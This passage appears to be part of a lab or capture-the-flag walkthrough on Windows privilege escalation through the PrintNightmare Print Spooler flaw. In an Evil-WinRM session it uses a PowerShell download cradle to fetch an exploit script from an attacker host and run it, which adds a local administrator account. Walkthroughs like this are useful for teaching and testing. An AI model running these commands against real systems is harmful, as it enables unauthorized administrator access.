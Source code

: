 WinPeas didn’t explicitly show any LPE path, however active process reveals that a Print Spooler Service is running. We can confirm it via powershell command.

```
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Documents> Get-Service Spooler | Format-List *


Name                : Spooler
RequiredServices    : {RPCSS, http}
CanPauseAndContinue : False
CanShutdown         : False
CanStop             : True
DisplayName         : Print Spooler
DependentServices   : {Fax}
MachineName         : .
ServiceName         : Spooler
ServicesDependedOn  : {RPCSS, http}
ServiceHandle       :
Status              : Running
ServiceType         : Win32OwnProcess, InteractiveProcess
Site                :
Container           :
```

There has been vulnerabilities in this service in past. Below is the working model of how an attacker can exploit this vulnerability.

[Security Update Guide - Microsoft Security Response Center](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)

![Image](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/11A1F00E-8F3A-462D-A5C1-2471E42690AE/76A63C25-8C48-42F3-B1B9-3A04625E3C67_2/x61oTpCpbqGyF7L2eAgKsrFH9cKkaGfdBeFx1wTY73Az/Image)

There’s a lot of POC’s are already available. We will below powershell script to exploit this vulnerability.

[GitHub - calebstewart/CVE-2021-1675: Pure PowerShell implementation of CVE-2021-1675 Print Spooler Local Privilege Escalation (PrintNightmare)](https://github.com/calebstewart/CVE-2021-1675)

Now we need to download the PS1 script on target machine.

```
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\programdata\demo> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.30/CVE-2021-1675.ps1')
```

This powershell will download and import automatically. Now we need to run the script.

```
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\programdata\demo> Invoke-Nightmare -DriverName "evil_driver" -NewUser "evil_user" -NewPassword "Evil_Password"

[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user evil_user as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```
